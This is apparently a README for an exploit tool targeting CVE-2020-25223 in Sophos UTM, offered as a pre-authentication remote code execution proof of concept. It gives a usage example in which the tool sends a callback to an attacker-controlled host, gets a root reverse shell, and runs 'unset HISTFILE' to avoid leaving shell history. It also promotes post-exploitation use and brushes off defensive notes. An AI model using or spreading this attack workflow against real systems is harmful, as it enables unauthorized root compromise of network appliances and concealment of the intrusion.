 # sophucked
CVE-2020-25223 RCE PoC, gets reverse shell. Pre-auth. Implemented this quickly as it was needed.


## Example Use:
```
# python sophucked.py https://x.x.x.x:4443 x.x.x.x 80
(+) starting handler on port 80
(+) Sending callback to x.x.x.x:80
(+) connection from x.x.x.x
(+) pop thy shell!
bash: no job control in this shell
utm:/var/confd # unset HISTFILE
unset HISTFILE
utm:/var/confd # id
id
uid=0(root) gid=0(root) groups=0(root)
utm:/var/confd # exit
exit
exit
*** Connection closed by remote host ***
# 
```

## Scanning/Detection
Not implemented in this, just use the [nuclei template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2020/CVE-2020-25223.yaml).

## Post-exploitation notes
These have a python interpreter, and actually a very fully featured Linux environment available. Amazing potential for post-exploitation. 

## Blue team notes
I'm sure someone who cares can fill this in.

Third party reference (bug details): https://www.atredis.com/blog/2021/8/18/sophos-utm-cve-2020-25223

